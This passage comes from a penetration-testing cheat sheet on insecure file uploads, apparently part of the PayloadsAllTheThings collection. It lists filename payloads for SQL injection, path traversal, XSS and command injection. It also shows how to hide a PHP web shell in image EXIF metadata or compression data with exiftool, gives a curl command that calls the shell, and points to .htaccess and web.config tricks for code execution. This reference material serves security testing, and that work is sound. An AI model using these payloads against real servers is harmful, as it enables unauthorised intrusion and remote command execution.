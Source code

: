 Sometimes the vulnerability is not the upload but how the file is handled after. You might want to upload files with payloads in the filename.

- Time-Based SQLi Payloads: e.g. `poc.js'(select*from(select(sleep(20)))a)+'.extension`
- LFI/Path Traversal Payloads: e.g. `image.png../../../../../../../etc/passwd`
- XSS Payloads e.g. `'"><img src=x onerror=alert(document.domain)>.extension`
- File Traversal e.g. `../../../tmp/lol.png`
- Command Injection e.g. `; sleep 10;`

Also you upload:

- HTML/SVG files to trigger an XSS
- EICAR file to check the presence of an antivirus

### Picture Compression

Create valid pictures hosting PHP code. Upload the picture and use a **Local File Inclusion** to execute the code. The shell can be called with the following command : `curl 'http://localhost/test.php?0=system' --data "1='ls'"`.

- Picture Metadata, hide the payload inside a comment tag in the metadata.
- Picture Resize, hide the payload within the compression algorithm in order to bypass a resize. Also defeating `getimagesize()` and `imagecreatefromgif()`.
    - [JPG](https://virtualabs.fr/Nasty-bulletproof-Jpegs-l): use createBulletproofJPG.py
    - [PNG](https://blog.isec.pl/injection-points-in-popular-image-formats/): use createPNGwithPLTE.php
    - [GIF](https://blog.isec.pl/injection-points-in-popular-image-formats/): use createGIFwithGlobalColorTable.php

### Picture with custom metadata

Create a custom picture and insert exif tag with `exiftool`. A list of multiple exif tags can be found at [exiv2.org](https://exiv2.org/tags.html)

```ps1
convert -size 110x110 xc:white payload.jpg
exiftool -Copyright="PayloadsAllTheThings" -Artist="Pentest" -ImageUniqueID="Example" payload.jpg
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
```

### Configuration Files

If you are trying to upload files to a :

- PHP server, take a look at the [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess) trick to execute code.
- ASP server, take a look at the [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config) trick to execute code.

Configuration files examples

- [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess)
- [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config)
- [httpd.conf](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Busybox%20httpd.conf)
- [\_\_init\_\_.py](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Python%20__init__.py)
